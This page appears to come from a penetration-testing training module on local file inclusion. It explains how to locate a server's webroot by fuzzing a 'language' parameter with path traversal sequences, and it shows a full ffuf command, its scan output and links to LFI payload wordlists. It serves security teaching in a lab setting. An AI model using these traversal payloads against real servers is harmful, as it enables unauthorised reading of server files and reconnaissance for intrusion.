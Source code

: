 
## Fuzzing Server Files

In addition to fuzzing LFI payloads, there are different server files that may be helpful in our LFI exploitation, so it would be helpful to know where such files exist and whether we can read them. Such files include: `Server webroot path`, `server configurations file`, and `server logs`.

#### Server Webroot

We may need to know the full server webroot path to complete our exploitation in some cases. For example, if we wanted to locate a file we uploaded, but we cannot reach its `/uploads` directory through relative paths (e.g. `../../uploads`). In such cases, we may need to figure out the server webroot path so that we can locate our uploaded files through absolute paths instead of relative paths.

To do so, we can fuzz for the `index.php` file through common webroot paths, which we can find in this [wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or this [wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). Depending on our LFI situation, we may need to add a few back directories (e.g. `../../../../`), and then add our `index.php` afterwords.

The following is an example of how we can do all of this with ffuf:

  Automated Scanning

```shell-session
alakin2504@htb[/htb]$ ffuf -w /opt/useful/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287

...SNIP...

: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 2287
________________________________________________

/var/www/html/          [Status: 200, Size: 0, Words: 1, Lines: 1]
```

As we can see, the scan did indeed identify the correct webroot path at (`/var/www/html/`). We may also use the same [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist we used earlier, as it also contains various payloads that may reveal the webroot. If this does not help us in identifying the webroot, then our best choice would be to read the server configurations, as they tend to contain the webroot and other important information, as we'll see next.
